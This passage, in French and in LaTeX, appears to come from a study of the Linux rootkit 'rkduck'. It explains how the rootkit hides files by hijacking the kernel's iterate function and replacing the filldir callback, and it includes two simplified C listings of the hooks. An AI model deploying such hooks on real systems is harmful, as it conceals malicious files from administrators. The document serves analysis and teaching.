 \documentclass[12pt]{article}
\begin{document}
		La fonction \texttt{hijacked\_iterate} va à son tour permettre de replacer la fonction \texttt{filldir} qui est appelée par iterate. Lorsqu'on utilise l'appel système \texttt{getdents} pour lister le contenu d'un dossier, c'est la fonction \texttt{filldir} qui va se charger de remplir les structures avec les informations sur les éléments se trouvant dans celui-ci. Ainsi, l'intérêt va être de remplacer cette fonction par une fonction malveillante \texttt{filldir\_hijacked} afin d'indiquer les fichiers à cacher.

        Dans la fonction \texttt{iterate}, l'appel à \texttt{filldir} se fait via un pointeur stocké dans la structure \texttt{struct dir\_context *ctx}. Ainsi, la fonction \texttt{hijacked\_iterate} aura pour unique but de modifier celui-ci avant de faire appel à la version originale de \texttt{iterate}.\\

\begin{listing}[H]
\begin{verbatim}
int vfs_hijacked_iterate(struct file *file, struct dir_context *ctx) {
    int ret;

    *((filldir_t *)&ctx->actor) = &vfs_hijacked_filldir;

    vfs_hijack_stop(vfs_original_iterate);
    ret = vfs_original_iterate(file, ctx);
    vfs_hijack_start(vfs_original_iterate);

    return ret;
}
\end{verbatim}
\caption{Version simplifiée de vfs\_hijacked\_iterate dans rkduck}
\label{listing:7}
\end{listing}

        Comme spécifié précédemment, le code original de la fonction \texttt{iterate} a été sauvegardé. Il est ensuite rétabli via la fonction \texttt{vfs\_hijack\_stop}. Désormais, lorsque \texttt{iterate} appellera la fonction \texttt{filldir}, l'appel sera remplacé par \texttt{vfs\_hijacked\_filldir}, qui renverra \texttt{0} lorsqu'un fichier qu'on veut cacher a été passé en paramètre (\texttt{rkduck} dans le Listing~\ref{listing:8}). Une fois que la fonction \texttt{iterate} a terminée, l'exécution est à nouveau redirigée vers \texttt{vfs\_hijacked\_iterate} pour qu'on puisse continuer de masquer les fichiers lors d'appels futurs.\\

\begin{listing}[H]
\begin{verbatim}
static int 
vfs_hijacked_filldir(struct dir_context *ctx, const char *name, 
                     int namelen, loff_t offset, u64 ino, 
                     unsigned int d_type) 
{
    char *get_protect = "rkduck";
    
    if (strstr(name, get_protect)) {
        return 0;
    }

    return vfs_original_filldir(ctx, name, namelen, offset, ino, d_type);
}
\end{verbatim}
\caption{Version simplifiée de vfs\_hijacked\_filldir dans rkduck}
\label{listing:8}
\end{listing}
\end{document}
